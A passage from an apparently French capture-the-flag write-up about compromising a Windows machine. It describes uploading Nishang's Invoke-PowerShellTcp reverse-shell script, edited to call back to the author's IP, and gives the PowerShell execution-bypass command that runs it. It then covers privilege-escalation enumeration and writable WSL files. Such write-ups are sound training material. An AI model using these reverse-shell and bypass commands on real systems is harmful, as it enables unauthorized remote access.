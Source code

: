 ```php
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

Pour obtenir un reverse shell j'ai uploadé le script [Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) de *Nishang* après l'avoir édité pour rajouter l'instruction d'appel du reverse shell (spécifiant mon IP et mon port).  

Le script s'appelle de cette façon :  

```bash
powershell.exe -nop -exec bypass -Command "& .\Invoke-PowerShellTcp.ps1"
```

A partir de ce shell j'ai chargé et exécuté différents scripts (*Find-AllVulns* de [Sherlock](https://github.com/rasta-mouse/Sherlock) et différentes méthodes de [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)) sans résultats.  

Pimp my Windows
---------------

A la racine du disque C on trouve un dossier *Distros* énigmatique :  

```plain
 Volume in drive C has no label.
 Volume Serial Number is 9CDD-BADA

 Directory of c:\Distros\Ubuntu

09/01/2018  06:47 AM    <DIR>          .
09/01/2018  06:47 AM    <DIR>          ..
07/11/2017  06:10 PM           190,434 AppxBlockMap.xml
07/11/2017  06:10 PM             2,475 AppxManifest.xml
06/21/2018  03:07 PM    <DIR>          AppxMetadata
07/11/2017  06:11 PM            10,554 AppxSignature.p7x
06/21/2018  03:07 PM    <DIR>          Assets
06/21/2018  03:07 PM    <DIR>          images
07/11/2017  06:10 PM       201,254,783 install.tar.gz
07/11/2017  06:10 PM             4,840 resources.pri
06/21/2018  05:51 PM    <DIR>          temp
07/11/2017  06:10 PM           222,208 ubuntu.exe
07/11/2017  06:10 PM               809 [Content_Types].xml
               7 File(s)    201,686,103 bytes
               6 Dir(s)  32,692,867,072 bytes free
```

Il s'agit en fait de *WSL* (*Windows Subsystem for Linux*) qui permet aux utilisateurs de la lucarne d'avoir finalement un shell civilisé :p  

Ces fichiers sont modifiables par les utilisateurs authentifiés (par login). Il y a toutefois un fichier de signature et ce serait peut être compliqué de s'y attaquer :  

```plain
c:\Distros\Ubuntu\ubuntu.exe BUILTIN\Administrators:(I)(F)
                             NT AUTHORITY\SYSTEM:(I)(F)
                             BUILTIN\Users:(I)(RX)
                             NT AUTHORITY\Authenticated Users:(I)(M)

c:\Distros\Ubuntu\AppxSignature.p7x BUILTIN\Administrators:(I)(F)
                                    NT AUTHORITY\SYSTEM:(I)(F)
                                    BUILTIN\Users:(I)(RX)
                                    NT AUTHORITY\Authenticated Users:(I)(M)
```
